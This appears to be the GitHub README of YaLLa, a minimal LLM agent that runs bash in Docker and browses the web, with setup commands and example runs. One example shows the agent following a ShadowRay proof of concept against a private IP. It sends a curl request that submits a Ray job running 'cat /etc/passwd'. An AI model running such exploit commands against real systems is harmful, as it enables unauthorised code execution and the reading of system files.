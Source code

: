 # Yet Another LLM Agent (YaLLa)
A tiny LLM Agent with minimal dependencies, focused on local inference.<br>
This agent was introduces in a [LangTalks Webinar](https://www.youtube.com/watch?v=BYExD2j_7SY) (30 minutes, Hebrew).
<br>
<br>
<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Tools](#tools)
- [Uses OpenAI API specification](#uses-openai-api-specification)
- [Get Started](#get-started)
- [Run the agent completely on device with Ollama](#run-the-agent-completely-on-device-with-ollama)
- [Run the agent using ChatGPT and OpenAI](#run-the-agent-using-chatgpt-and-openai)
- [Examples](#examples)
    - [Run ShadowRay on a given IP address based on a GIST example payload](#run-shadowray-on-a-given-ip-address-based-on-a-gist-example-payload)
- [Execution logs and history](#execution-logs-and-history)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Tools

1. **ubuntu_terminal:** Runs bash commands inside Ubuntu temporary container via `docker`.
2. **web_browser:** Accesses websites or search free text, to retrieve the inner text content and links. Uses `selenium` by default. can also use Jina AI's free browsing APIs.
3. **llm_query:** Communicate with the large language model.
4. **create_text_file:** Creates a text file inside the container.
5. **open_api:** Interacts with an OpenAPI service to fetch data or perform operations.

## Uses OpenAI API specification
- Local
  - <a href="https://ollama.com/">Ollama</a>
  - <a href="https://github.com/ggerganov/llama.cpp/server">llama.cpp</a>
- OpenAI
  - ```shell
    export OPENAI_API_KEY="sk-..."
    ```

## Get Started
**Clone:**
```shell
git clone https://github.com/avilum/yalla.git && cd yalla
```
**Install:**
```shell
python3 -m pip install -r requirements.txt
```
**Run:**
```shell
# helper function
function agent(){
  python3.11 agent.py $*
}

agent --help
```

## Run the agent completely on device with Ollama
1. Run ollama
```shell
ollama pull gemma2 && ollama serve
```
2. Run the agent with `--local`
```shell
agent --local --planner gemma2 --executor gemma2 --query "What happened to donald trump?"
agent --local --planner gemma2 --executor phi3 --query "Who acquired Deci AI"
agent --local --verbose --query "Create a fastapi app and run it in on port 8082." --steps 7
agent --query 'open_api: {"url": "https://api.example.com/data", "method": "GET"}'
```
## Run the agent using ChatGPT and OpenAI
1. Set the OpenAI API Key:
```shell
export OPENAI_API_KEY="sk-..."
```
2. Run the agent
```shell
agent --query "Who acquired Deci AI"
agent --planner gpt-4o --executor gpt-3.5-turbo --verbose --query "What are the top trending models on huggingface from last week?"
```
## Examples
Input:
```shell
agent --local --planner="gemma2:27b" --executor="gemma2" --query "What is the latest blog post by brendan gregg"
```
Output:
```text
The latest blog post by Brendan Gregg is titled "No More Blue Fridays" and was published on July 22, 2024.
You can find it at: /blog/2024-07-22/no-more-blue-fridays.html
```
---
#### Run ShadowRay on a given IP address based on a GIST example payload
Input:
```shell
agent --query "Follow the POC at https://gist.githubusercontent.com/avioligo/edde6aed604b4ec077a3505dfaa6f384/raw/2c6dcbfe2ee87aa21efa5db83c99b688689ef6e1/gistfile1.txt and run the example on IP 192.168.2.168 on port 8265 and return the Job ID and the command that was run "
```
Output:
```text
The command that was run is:

curl -X POST http://192.168.2.168:8265/api/jobs/ -H 'Content-Type: application/json' -d '{"entrypoint": "cat /etc/passwd", "runtime_env": {}, "job_id": null, "metadata": {"job_submission_id": "1"}}'

The Job ID returned is: **raysubmit_FdzLfdynrzsGgj64**.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "Who acquired Deci AI?"
```
Output:
```text
Nvidia acquired Deci AI for $300 million.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "What happened to donald trump"
```
Output:
```text
Based on the provided information from CNN and The New York Times, former President Donald Trump was involved in a shooting at a rally in Butler, Pennsylvania on July 13, 2024.

He was reportedly rushed off stage with blood on his ear and face. While the Secret Service confirmed he is safe, details about the incident and the shooter are still emerging.

It's important to note that information about this event is rapidly developing and may change. To get the most up-to-date information, it's best to refer to reliable news sources.
```
---
Input:
```shell
agent --local --planner="gemma2" --executor="gemma2" --query "Tell me about Avi Lumelsky from Oligo and about his researches"
```
Output:
```text
Avi Lumelsky is a security researcher at Oligo.

He is actively involved in researching and raising awareness about vulnerabilities in popular AI frameworks, particularly the Ray AI framework.  His work has been featured in prominent tech publications like TechTarget, Security Boulevard, The Register, and VentureBeat.

Lumelsky's research has highlighted critical vulnerabilities that can be exploited to gain control of AI workloads, compute resources, and sensitive data. He is a recognized speaker at cybersecurity conferences like BSidesBUD, where he shares his findings and insights with the broader security community.


You can find more information about Avi Lumelsky and his work on his LinkedIn profile and in the articles listed in the provided context.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "What are the trending models on huggingface right now?"
```
Output:
```text
Here are some of the trending models on HuggingFace right now, across various categories like text generation, image generation, and question answering:

* **Text Generation:**
    * Qwen2-72B-Instruct
    * Mixtral-8x7B-Instruct-v0.1
    * Gemma-2-9b-it
    * Gemma-2-27b-it
* **Image Generation:**
    * Stable Diffusion XL-Base 1.0
    * Kolors
    * AuraFlow
    * Stable Diffusion 3-Medium
* **Other:**
    * Microsoft's Florence-2-large (Image-Text-to-Text)
    * OpenAI's Whisper-large-v3 (Automatic Speech Recognition)

Keep in mind that trends change rapidly!  You can explore the full list and sort by popularity on the HuggingFace website.
```
---
## Execution logs and history
By default all the runs will be logged to the `.runs/` directory.<br>

More examples can be found at the <a href="examples/">/examples</a> folder.
